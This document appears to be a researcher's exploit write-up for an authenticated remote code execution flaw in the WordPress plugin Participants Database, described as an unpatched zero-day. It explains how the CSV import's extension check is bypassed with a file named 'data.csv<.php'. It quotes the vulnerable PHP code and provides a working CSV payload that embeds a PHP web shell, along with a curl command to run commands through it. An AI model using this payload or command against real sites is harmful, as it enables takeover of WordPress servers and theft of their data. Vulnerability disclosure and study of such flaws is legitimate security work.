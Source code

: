 # Participants database authenticated RCE

0day :)

Found: Saturday 2018/01/13

Publicly disclosed: x

By David.
Tested on: Ubuntu 17.04, wordpress 4.9.1, PHP7 development server (`$ php -S`)

This is about the wordpress plugin [participants-database](https://wordpress.org/plugins/participants-database/).

### Info

This exploit abuses the CSV import function of the participants database to upload arbitrary php code.

By default, the exploit requires at least Editor privileges, although this can technically be higher or lower, as administrators can change the authentication level needed to read/write records.

### How it works

The participants database has a function to import a CSV file with entries, put the entries in the database, and place the CSV file in the `/wp-content/uploads/participants-database/` directory.

Due to a broken extension check, you can upload files with arbitrary extensions with some tinkering, like .php files. The plugin is supposed to check if the extension of the file is `.csv`. However, it strips html tags in the filename before checking the extension, but writes the full filename (with html tags) to the aforementioned directory.

This is the offending code snippet:

```php

// wp-content/plugins/participants-database/classes/xnau_CSV_Import.class.php: 140

function check_submission()
{
    $nonce = filter_input(INPUT_POST, '_wpnonce', FILTER_SANITIZE_STRING );
    if ( ! wp_verify_nonce( $nonce, self::nonce ) ) {
      return false;
    }
    $filename = filter_var( $_FILES['uploadedfile']['name'], FILTER_SANITIZE_STRING );
    $check =  pathinfo( $filename, PATHINFO_EXTENSION ) === 'csv';
    if ( $check ) {
      return true;
    }
    $this->set_error_heading( __('Invalid file for import.', 'participants-database') );
    return false;
}

```

We can exploit this by giving up a file called `data.csv<.php`, due to the nature of FILTER_SANITIZE_STRING, which deletes even incomplete tags.

Now we need to tinker a bit with the csv file. The plugin only accepts valid CSV files with some required fields.

This is a working file that gives you a very limited shell.

```
first_name,last_name,address,city,state,country,zip,phone,email,mailing_list,id,<?php echo system($_POST['cmd']);?>
,,,,,,,,,,,
,,,,,,,,,,,
```

After you've uploaded this file, simply do

`curl "http://example.website/wp-content/uploads/participants-database/data.csv<.php" --data "cmd=id"`

To i.e run the `id` command


### Mitigation

As of now, there aren't any mitigations yet, except for fixing the code yourself.

That's it

-David 
